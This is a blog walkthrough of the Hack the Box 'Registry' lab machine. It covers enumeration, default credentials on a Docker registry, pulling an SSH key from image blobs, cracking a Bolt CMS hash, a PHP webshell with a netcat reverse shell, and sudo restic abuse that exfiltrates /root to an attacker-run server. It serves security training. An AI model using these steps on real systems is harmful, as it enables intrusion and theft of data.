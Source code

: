 +++
author = "Nick"
categories = ["hack the box", "Linux", "Hard", "docker", "bolt cms", "reverse shell", "john", "port forwarding", "restic"]
date = 2020-04-04T10:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/04/registry.png"
slug = "hack-the-box-registry"
summary = "Welcome back! Today we are going to be doing the Hack the Box machine - Registry. This machine is listed as a Hard linux box. Let's jump in!"
tags = ["hack the box", "Linux", "Hard", "docker", "bolt cms", "reverse shell", "john", "port forwarding", "restic"]
title = "Hack the Box - Registry"

+++


Welcome back! Today we are going to be doing the Hack the Box machine - Registry. This machine is listed as a Hard linux box. Let's jump in!

As usual, we kick it off with our `nmap`: `nmap -sC -sV -p- -oA allscan 10.10.10.159`

Here are the results:
```
Nmap scan report for 10.10.10.159
Host is up (0.12s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp  open  http     nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp open  ssl/http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=docker.registry.htb
| Not valid before: 2019-05-06T21:14:35
|_Not valid after:  2029-05-03T21:14:35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have quite a list of results. We're going to want to add `registry.htb` as well as `docker.registry.htb` to our host file. When we browse to that location, we don't have anything being shown. We'll enumerate a bit with `gobuster`.

Command:
`gobuster dir -u registry.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50`



We immediately see a directory called `v2`. Let's head over to that and see what's there. We are immediately prompted for credentials. We try some standard credentials like admin / admin and we get in. 

Now that we've authenticated, we are given what seems to be an API endpoint. Sure enough, it is the docker API endpoint. There is some documentation for that [here](https://docs.docker.com/registry/spec/api/).

According to the docks we can see available repositories by send a `GET` to `/v2/_catalog`.

![](/images/2020/04/image-19.png" caption="From the Docker documentation)

So, let's `curl` it and see what comes back (Note you can just browse to this URL as well).

Command:
`curl --user "admin:admin" docker.registry.htb/v2/_catalog`

![](/images/2020/04/image-20.png)

We see one repo named `bolt-image`. Cool, now that we have an image being used, let's get it's manifest. For those unaware of Docker and how it functions, a manifest is just like it sounds. A listing of docker related data about the image being used. You can read more on the Docker manifest [here](https://docs.docker.com/engine/reference/commandline/manifest/).

Command:
`curl --user "admin:admin" docker.registry.htb/v2/bolt-image/manifests/latest > bolt.manifest`

We now have a bunch of data about the docker image. Now we see a large listing of `blogSum`s. These are essentially zipped digests. So we'll download each of them, give them the `.tar.gz` extension and then unzip them to see what is inside. Here's a quick .sh I put together:
```bash
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b -O 1.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee -O 2.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7 -O 3.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791 -O 4.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4 -O 5.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0 -O 6.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a -O 7.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797 -O 8.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff -O 9.tar.gz
```

We finally find one with some data in!

![](/images/2020/04/image-21.png)

Inside we have a shell file with the password to an `SSH` key.

![](/images/2020/04/image-22.png)

Inside another, we have the key itself.

![](/images/2020/04/image-23.png)

Inside the `config` file we also get a username to connect with.

![](/images/2020/04/image-24.png)

Now we can `SSH` into the machine and with some luck snag our user key!

Command:
`ssh -i id_rsa bolt@10.10.10.159`

![](/images/2020/04/image-26.png)

Awesome, we have our `user.txt` flag. Let's start enumerating and looking for a path to root!

We know from the `gobuster` enumeration that there is a directory called /bolt/ (as well as from our blob downloads). When we browse ot it we are met with a basic install of the [Bolt CMS](https://bolt.cm/). So we manually enumerate the site a bit but find nothing too useful.

We head back to our `SSH` shell and look around the bolt directory. We find a file called `bolt.db` in the bolt app location.

![](/images/2020/04/image-27.png)

If we `cat` this file we see this within it.

![](/images/2020/04/image-29.png)

That is indeed the hash for the admin account. We'll save it to a file called `admin.hash` and send it to `john` to crack.

Command:
`john --wordlist=/usr/share/wordlist/rockyou.txt admin.hash`

![](/images/2020/04/adminhash_registry.gif)

We get a password of `strawberry` back. So now that we have an admin password to the application, let's log in: `http://registry.htb/bolt/bolt/login`

Once we're in we look around internally as well as some googling for bolt cms exploits. We find a few but none seem to work. Some more [research shows](https://fgsec.net/from-csrf-to-rce-bolt-cms/) that we can append file types to our allowed uploads. We can append the `.php` extension and give ourselves a webshell.

So we head over to Configuration > Main Configuration and look for the `accepted_file_types` line.

![](/images/2020/04/image-30.png)

Now we add `.php` to the list. Then we head over to File Management tab and upload our own shell. This all needs to be done quickly. It seems that the setting get reset every 2 mins or so?

So we upload our shell and navigate to it and execute our command for a netcat listener.

We then connect to the target for our shell.

![](/images/2020/04/image-31.png)

Once we're in we start some manual enumeration and get `linpeas` onto the system. Our first check of our permission shows that we can run `restic` as sudo.

![](/images/2020/04/image-32.png)

I don't even know what the software is, so we do more googling. Turns out it's a backup application. Reading through the documentation it seems the calls are all local, meaning we'll need to forward our ports at some point. First let's install the application. The application is actually in the standard repo, so we can use `apt install restic` and be good.

After it's installed we need to initialize the repo:
`restic init -r .reg`

Next, we need to start the server. We can download the precompiled binaries [here](https://github.com/restic/rest-server/releases):
`rest-server --path .reg`

![](/images/2020/04/image-33.png)

Now that those parts are setup. We need to forward our ports in order to pass our commands.

Command:
`ssh -i ~/HTB/Registry/root/.ssh/id_rsa 8000:localhost:8000 bolt@10.10.10.159`

![](/images/2020/04/image-34.png)

Now we can issue the sync command from the `www-data` shell:
`sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root`

![](/images/2020/04/image-35.png)

We will now see our `.reg` location filled with data from the backup.

![](/images/2020/04/image-36.png)

This isn't exactly what we want. Although I'm sure we could dig through the snapshot file, we want to sync the `root.txt` flag. So we can issue the same basic command as above but to specify the `root.txt` file:

Command:
`sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root/root.txt`

![](/images/2020/04/image-37.png)

Now that we've copied that file back, we need to decrypt it using the `restore` function of `restic`. We need to go back a level because this will not work from within the repo.

Command:
`restic -r .reg restore latest --target restored`

![](/images/2020/04/rootregistry.gif)

There we have it, our `root.txt` flag! Also, I should note that restoring the snapshot file was not complicated and did it the second time through the box for this blog. Here are the steps.

We navigate to our snapshot directory and issue the following:

`restic restore $SNAPSHOTID --target /root/Desktop -r /root/Desktop/$directory`

The items with a `$` are variables you'd set because the snapshot ID's and locations will be different for each run.

Hopefully something was learned during this machine. If you found this write-up helpful, consider sending some respect my way: [My HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).



